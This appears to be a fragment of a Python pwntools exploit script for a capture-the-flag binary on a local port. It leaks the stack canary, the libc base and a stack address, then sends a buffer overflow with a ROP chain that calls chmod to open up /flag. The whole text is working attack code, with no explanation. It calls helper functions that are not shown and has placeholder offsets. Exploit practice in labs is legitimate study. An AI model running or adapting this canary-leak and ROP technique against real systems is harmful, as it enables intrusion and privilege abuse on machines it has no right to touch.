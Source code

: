 ```python


def leak_stack(padding, canary, libc_base):
    environ = int.from_bytes(read_addr(padding, canary, libc_base, libc_base + libc_environ), 'little')
    return environ

def run_chmod(padding, canary, libc_base, stack_val):
    pop_rdi_ret = libc_base + libc_pop_rdi_ret
    pop_rsi_ret = libc_base + libc_pop_rsi_ret
    libc_chmod_addr = libc_base + libc_chmod
    flag_addr = stack_val  # TODO: check this
    buf_3 = b'\x41' * padding
    buf_3 += canary
    buf_3 += p64(0x4242424242424242)  # new value for rbp     
    buf_3 += p64(pop_rdi_ret)  # pop rdi; ret
    buf_3 += p64(flag_addr)
    buf_3 += p64(pop_rsi_ret)  # pop rsi; ret
    buf_3 += p64(0xffff)
    buf_3 += p64(libc_chmod_addr)  # chmod call
    buf_3 += b'/flag\x00\x00\x00' * 0x50
    with remote('0.0.0.0', 1337) as p:
        p.send(buf_3)
        time.sleep(0.5)
        p.recvuntil(b'Leaving!')

def main(): 
    padding = 0x78  # TODO: change this
    if False:
        p0 = gdb.debug(BINARY, gdbscript=GDB_SCRIPT)
        p0 = process(BINARY)
        time.sleep(2)
        p1 = remote('0.0.0.0', 1337)
        p1.send(b'\x41' * 0x18)
        p0.interactive()
    if True:
        canary = leak_canary(padding)
        libc_base = leak_libc(padding, canary)
        libc_base = int.from_bytes(libc_base, "little") - 0x12fc90 + 0xe4000 # TODO: adapt this
        assert(libc_base & 0xfff == 0)
        stack_val = leak_stack(padding, canary, libc_base)
        print(f'canary = {hex(int.from_bytes(canary, "little"))}')
        print(f'libc_base = {hex(libc_base)}') 
        print(f'stack_val = {hex(stack_val)}')
        run_chmod(padding, canary, libc_base, stack_val)
        exit()

if __name__ == '__main__':
    main()
```
